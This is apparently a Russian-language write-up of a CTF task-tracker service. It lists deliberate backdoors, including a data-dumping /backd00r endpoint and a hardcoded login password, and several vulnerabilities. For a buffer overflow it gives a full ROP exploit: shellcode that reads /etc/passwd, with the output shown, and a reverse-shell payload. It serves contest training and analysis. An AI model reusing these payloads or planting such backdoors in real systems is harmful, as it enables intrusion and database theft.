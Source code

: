1. [Бэкдор №1] Ручка `/backd00r` (выгружает данные из базы: комменты и названия тасков)
2. [Бэкдор №2] `if reqUser.Password == "h33xed_1337"` в login.go
3. [Уязвимость №1, WEB Easy] Можно зарегаться заново под существующим юзером с новым паролем
4. [Уязвимость №2, WEB Medium] При создании таска можно передать `{'id': 6}`, где 6 - id того таска, который хотим перехватить.
`db.Create(&task)` (из `CreateTask`) упадёт с ошибкой, однако выполнение продолжится дальше:
```go
userTask := UserTasks{UserID: uint(userID), TaskID: task.ID}
db.Create(&userTask)
```
И данный код запишет userID НАШЕГО юзера на просмотр таска!

5. [Уязвимость №3, PWN Medium] Простая прога на C, считающая CRC32 - подаётся комментарий, можно переполнить буфер и получить RCE, после чего выгрузить БД postgres.  

Пример эксплуатации
(кучу rop-гаджетов позволяет получить статическая компиляция):
```bash
$ ROPgadget --binary=./companion_app | grep "call rsp"
0x00000000004252da : call rsp

$ python3 -c 'from pwn import *;x=open("pws","wb");x.write(b"A"*152+p64(0x4252da)+b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41");x.close()'
$ ./companion_app < pws
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```
Реверс шелл на 127.0.0.1:4444 (по материалу https://shell-storm.org/shellcode/files/shellcode-907.html)
```bash
python3 -c 'from pwn import *;x=open("pws","wb");x.write(b"A"*152+p64(0x4252da)+b"j)X\x99j\x02_j\x01^\x0f\x05\x97\xb0*H\xb9\xfe\xff\xee\xa3\x80\xff\xff\xfeH\xf7\xd9QT^\xb2\x10\x0f\x05j\x03^\xb0!\xff\xce\x0f\x05u\xf8\x99\xb0;RH\xb9/bin//shQT_\x0f\x05");x.close()'
```
Далее уже очевидно - подключение к postgres базе и слив всего что можно оттуда.
